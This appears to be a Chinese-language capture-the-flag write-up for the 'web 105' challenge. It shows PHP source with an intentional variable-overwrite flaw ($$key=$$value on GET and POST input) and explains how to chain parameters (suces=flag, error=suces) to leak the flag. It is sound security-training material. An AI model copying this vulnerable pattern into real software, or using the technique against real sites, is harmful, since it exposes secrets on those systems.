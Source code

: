 

## web 105

```php
<?php

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
```

先放payload:

![](https://img.npfs06.top/20210308001645.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

```
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
//这是一步变量覆盖，我们传入suces=flag,最终会得到
//$suces=$flag，就是说将flag赋值给了suces变量
```

![](https://img.npfs06.top/20210308001702.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

我们可以看到在只有GET请求的时候，报的是error错误，这也就说明我们只要将flag赋值给error变量即可

```
foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
//我们POST传入error=suces,最终得到$error=$suces,结合GET请求，推出$error=$flag，即成功将flag的值赋值给了error变量

```
